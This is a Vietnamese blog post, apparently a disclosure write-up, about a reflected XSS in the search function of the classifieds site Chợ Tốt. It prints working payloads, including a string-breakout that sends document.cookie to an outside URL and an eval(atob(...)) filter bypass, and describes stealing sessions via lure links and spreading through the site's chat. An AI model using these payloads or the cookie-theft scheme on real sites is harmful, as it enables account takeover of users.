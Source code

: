 ```yaml
---
layout: post
title: Tôi đã hack Chợ Tốt như thế nào
thumbnail: hack-cho-tot.jpg
---
```


Hôm nay thử dạo một vòng Chợ Tốt kiếm mấy món hàng cũ, thì phát hiện lỗi XSS, đây là lỗi không mới, cách thức tấn công cũng đơn giản, nhưng nhiều khi cần rất nhiều sáng tạo trong quá trình khai thác.

Thử tìm kiếm với từ khóa "iphone 7" thì thấy như thế này:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/mh0excozyx_c1.png)

Ai chà, url đẹp phết, mình thích url này rồi đấy, search key đã được bỏ dấu và thêm dấu gạch ngang cho hợp chuẩn. Thử thêm một ít html vào xem sao:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/xq1tymmaf1_c2.png)

Rất nhiều nơi, search key đã được entities, tuy nhiên vì lý do nào đó, search key trong đoạn javascript này đã không được xử lý.
Vấn đề là, từ khóa nó đang nằm trong string, nên alert không xảy ra hiện tượng gì. 

Cuối cùng mình sửa search key như sau:

{% highlight javascript %}
iphone 7" }; alert("something went wrong"); var a = { "a":"
{% endhighlight %}

Thì nhận được alert:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/sk8bcvtkaw_c3.png)

Bạn thấy không? Mình muốn nói đến cái search key trên, từ một property của object, nó đã tách thành 2 object, và alert nằm giữa một cách đẹp đẽ và tuyệt vời.

OK, giờ thử redrect đến 1 trang ngoài cùng với cookie của người dùng xem sao, mình thử code này:

```javascript
iphone 7" }; window.location="http://google.com/" + document.cookie; var a = { "a":"
```

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/o7l9sidows_c4.png)

Cái lề gì thốn, coder đã cẩn thận bỏ dấu gạch chéo // và phần sau của search key đi, cũng như lọc một số từ đặc biệt trong chuỗi, như vậy là không thể tương tác gì url bên ngoài được? Không, phải nghĩ cách khác. Cuối cùng thì mình đã tìm ra cách hoàn hảo nhất là đây:

```javascript
iphone 7" }; eval(atob("xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx")); var a = { "a":"
```

Với xxxxx là mã hóa base64 của một đoạn code javascript bất kỳ, tức là chúng ta có thể chèn bất kỳ đoạn javascript nào vào Chợ Tốt. Ví dụ sau đây để alert cookie:

```javascript
iphone 7" }; eval(atob("YWxlcnQoIGRvY3VtZW50LmNvb2tpZSk=")); var a = { "a":"
```

Và đây là kết quả:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/t9g7rdgqhh_9.png)

Đã đến bước này, thì các bạn đã biết mình sẽ làm gì tiếp theo rồi phải không? Mình đăng 1 bài viết mua bán với giá rất rẻ, trong đó có kèm link, lấy cookie để vào được tài khoản của những người không may click vào link.

Nhưng không dừng lại ở đó, khi đã vào được tài khoản của vài thành viên khác, mình có thể mở rộng hơn qua chính công cụ chat của Chợ Tốt bằng tokenKey đã lấy được. Viết script tự động chat với nhiều thành viên khác với nội dung bán đồ rất rẻ, và kèm link để câu.

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/j5w20u6nil_c6.png)

Tâm lý là khi được chat về sản phẩm đang bán, người dùng rất dễ click vào link, social engineering khá hiệu quả trong trường hợp này.

Hiện tại mình đã report với Chợ Tốt, nhưng họ có vẻ không quan tâm lắm, chỉ nói chung chung là sẽ kiểm tra.

Mình sẽ update tình hình lên bài viết này.

> Update 1: 
> Mình đã gửi report đến Chợ Tốt, và sau 10 tiếng nhận lại được 1 email phản hồi yêu cầu mô tả tái hiện lỗi, mình đã gửi lại và chưa nhận được hồi đáp. Lỗi chưa được fix.
> 
> Update 2:
> Đến 15h ngày 23/11: Lỗi đã được lẳng lặng fix bằng một cách củ chuối là: remove ký tự đóng mở ngoặc đơn () trong search key, vẫn có thể bypass được,  chưa có thông báo gì đến mình, tất cả là một email chung chung.

